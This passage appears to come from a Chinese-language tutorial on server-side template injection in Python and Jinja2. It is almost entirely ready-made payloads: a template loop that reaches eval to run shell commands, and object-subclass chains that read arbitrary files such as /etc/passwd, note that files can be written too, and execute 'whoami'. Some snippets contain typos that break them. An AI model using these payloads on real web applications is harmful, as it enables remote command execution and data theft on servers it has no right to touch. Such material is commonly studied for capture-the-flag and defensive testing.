 

### Ⅱ.直接生成payload脚本

```python
 # 模板语法 _ 命令执行_eval
{% raw %}
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'eval' in x.__init__.__globals__['__builtins__']['eval'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
{% endfor %}
{% endraw %}
```



### ④常见可利用类

#### Ⅰ.文件读取

**方法一：子模块利用**

(1)存在的子模块可以通过.index()来查询，如果存在的话返回索引

```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

(2)file类:(在字符串的所属对象中获得str的父类，在其object父类中查找所有子类，第41个为file类）

```python
''.__class__.__mro__[2].__subclasses__()[40]('<File_To_Read>').read()
```

(3)\_\_frozen\_importlib\_external.FileLoader类：（前置查询一样，其是第91个类）

```python
''.__class__.__mro__[2].__subclasses__()[91].get_data(0,"<File_To_Read>")
```



**方法二：通过函数解析->基本类->基本类子类->重载类->引用->查找可用函数**

```python
''.__class__.__mro__[2].__subcalsses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read() 
```

把read改成write就可写了。



#### Ⅱ.命令执行

**方法一：利用eval进行命令执行**

```python
''.__class__.__mro__[2]__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```
